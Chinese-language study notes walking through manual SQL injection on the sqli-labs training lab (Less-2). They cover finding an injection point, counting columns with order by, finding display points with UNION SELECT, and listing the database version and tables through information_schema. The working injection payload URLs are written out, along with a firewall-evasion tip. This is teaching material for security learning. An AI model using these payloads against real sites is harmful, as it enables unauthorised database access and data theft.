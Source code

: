 #### 第一步 判断注入点

```
http://localhost/sqli_labs/Less-2/?id=1 
http://localhost/sqli_labs/Less-2/?id=1 and 1=1
```

    判断有无注入点  and 1 = 1； true

**当注入点为字符型时，and 1=2 页面仍然可以执行**

**当注入点为数字型时，and 1=2 页面不能执行**

```
小技巧：判断类型时，可以使用id=2-1来查看，数字型则会返回第一个结果，相反字符型无法运算
```

**select * from ser where name = $name and 1=1**

 随便输入内容 == 报错 注入

    == 没有注入

#### 第二步 判断字段数（列数）

   猜解列名数量 order by           %20 空格
    group by    		//group by 一般注入时不会被防火墙发现

```
http://localhost/sqli_labs/Less-2/?id=1 order by 3  正确
http://localhost/sqli_labs/Less-2/?id=1 order by 4    报错
```

   猜解有几个字段      测试结果反馈3个字段

#### 第三步 判断回显点 union

**id=-1**

**因为这里****优先显示的是联合查询的第一个结果，而第二个结果未被显示**。

![1686740446661](image/1.1手工注入流程/1686740446661.png)

**所以我们只需要在这里****使联合查询的第一个结果不显示**（使前半段语句为假，则不返回任何内容）：

![1686740526745](image/1.1手工注入流程/1686740526745.png)

**我们发现  ”Your Login Name“  后显示的是第二个字段的内容**
**			“Password”         后显示的是第三个字段的内容

**说明Angelina是第二个字段的内容，I-kill-you是第三个字段的内容**

#### 第四步 信息收集

**数据库版本 version()    只有高版本才有系统库， 高版本：5.0以上          低版本：5.0以下**

* **系统库： ****infromation_schema**
* **数据库名称：database（）**
* **schemata表** (mysql服务器中所有**数据库信息**的表)
* **tables表** (mysql服务器中所有**表信息**的表)
* **columns表**（mysql服务器所有**列信息**的表）
* **table_schema 数据库名**
* **table_name 表名**
* **column_name 列名**
* . 下一级
  **infromation_schema.tables 查找表名**
  **infromation_schema.columns 查看列名**

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2 union select 1,version(),database()
//查询数据库版本和数据库名
```

![1686741066155](image/1.1手工注入流程/1686741066155.png)

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2  union select 1,table_name,3 from information_schema.tables where table_schema='security'
//显示security库中的第一张表
```

![1686741088652](image/1.1手工注入流程/1686741088652.png)

![]()

![1686750543935](image/1.1手工注入流程/1686750543935.png)





![]()

![]()

![]()

![]()
